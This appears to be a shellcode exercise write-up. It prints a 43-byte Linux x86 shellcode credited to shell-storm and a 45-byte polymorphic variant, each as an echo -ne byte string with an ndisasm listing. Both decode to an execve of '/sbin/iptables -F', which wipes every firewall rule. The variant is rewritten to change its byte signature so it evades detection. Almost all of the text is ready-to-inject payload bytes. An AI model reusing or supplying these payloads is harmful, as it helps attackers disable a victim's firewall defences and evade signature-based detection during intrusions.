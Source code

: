 ## Initial nasm code

Original shellcode: [Link](http://shell-storm.org/shellcode/files/shellcode-825.php)

Length: 43 bytes

Obtain from running: 

    echo -ne "\x31\xc0\x50\x66\x68\x2d\x46\x89\xe6\x50\x68\x62\x6c\x65\x73\x68\x69\x70\x74\x61\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x73\x89\xe3\x50\x56\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" | ndisasm -u -
  
    00000000  31C0              xor eax,eax
    00000002  50                push eax
    00000003  66682D46          push word 0x462d
    00000007  89E6              mov esi,esp
    00000009  50                push eax
    0000000A  68626C6573        push dword 0x73656c62
    0000000F  6869707461        push dword 0x61747069
    00000014  6862696E2F        push dword 0x2f6e6962
    00000019  682F2F2F73        push dword 0x732f2f2f
    0000001E  89E3              mov ebx,esp
    00000020  50                push eax
    00000021  56                push esi
    00000022  53                push ebx
    00000023  89E1              mov ecx,esp
    00000025  89C2              mov edx,eax
    00000027  B00B              mov al,0xb
    00000029  CD80              int 0x80
    
  
 ## Polymorphic nasm code

Length: 45 bytes

Obtain from running: 

    echo -ne "\x51\x66\x68\x2d\x46\x8d\x75\xde\x51\x68\x62\x6c\x65\x73\x68\x69\x70\x74\x61\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x73\x8d\x5e\xec\x51\x56\x53\x8d\x4b\xf4\x31\xd2\x6a\x0b\x58\xcd\x80" | ndisasm -u -

    00000000  51                push ecx
    00000001  66682D46          push word 0x462d
    00000005  8D75DE            lea esi,[ebp-0x22]
    00000008  51                push ecx
    00000009  68626C6573        push dword 0x73656c62
    0000000E  6869707461        push dword 0x61747069
    00000013  6862696E2F        push dword 0x2f6e6962
    00000018  682F2F2F73        push dword 0x732f2f2f
    0000001D  8D5EEC            lea ebx,[esi-0x14]
    00000020  51                push ecx
    00000021  56                push esi
    00000022  53                push ebx
    00000023  8D4BF4            lea ecx,[ebx-0xc]
    00000026  31D2              xor edx,edx
    00000028  6A0B              push byte +0xb
    0000002A  58                pop eax
    0000002B  CD80              int 0x80
